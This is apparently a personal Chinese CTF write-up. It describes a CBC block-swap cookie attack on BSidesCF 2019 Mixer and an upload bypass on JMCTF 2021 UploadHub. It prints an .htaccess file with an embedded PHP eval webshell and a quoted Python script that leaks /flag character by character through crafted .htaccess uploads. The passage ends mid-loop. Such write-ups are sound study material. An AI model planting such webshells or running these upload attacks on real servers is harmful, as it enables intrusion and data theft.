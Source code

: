 ## [BSidesCF 2019]Mixer

好难，直接看wp，发现用了密码学的知识   

* CBC分组加密

> 这题考点在于CBC的整块替换。比如此处
> 加密的数据应该是`{"first_name":"A1.00000000000000","last_name":"1231","is_admin":0}`
> 前提知识：CBC是以16字节为一个块。然后进行加密

然后替换

`{"first_name":"A1.00000000000000","last_name":"1231","is_admin":0}` 提取cookie里的值并替换

## [JMCTF 2021]UploadHub

没有过滤后缀，但是上传php文件不会被解析

* 上传.htaccess文件

```xml-dtd
<FilesMatch .htaccess>
SetHandler application/x-httpd-php 
Require all granted  
php_flag engine on	
</FilesMatch>

php_value auto_prepend_file .htaccess
#<?php eval($_POST['dmind']);?>

```

> nu1l  使用.htaccess文件上传盲注
>
> ```py
> import requests
> import string
> import hashlib
> ip = '74310c5695d734e667dc2250a05dcd29'//修改成自己的
> print(ip)
> 
> #当访问一个不存在的目录时,返回wpco6
> def check(a):
>     htaccess = '''
>     <If "file('/flag')=~ /'''+a+'''/">
>     ErrorDocument 404 "wupco6"
>     </If>
>     '''
>     resp = requests.post("http://ec19713a-672c-4509-bc22-545487f35622.node3.buuoj.cn/index.php?id=69660",data={'submit': 'submit'}, files={'file': ('.htaccess',htaccess)} )
>     a = requests.get("http://ec19713a-672c-4509-bc22-545487f35622.node3.buuoj.cn/upload/"+ip+"/a").text
> 
>     if "wupco" not in a:
>         return False
>     else:
>         print(a)
>         return True
> flag = "flag{"
> check(flag)
> 
> c = string.ascii_letters + string.digits + "\{\}"
> for j in range(32):
>     for i in c:
>         print("checking: "+ flag+i)
>         if check(flag+i):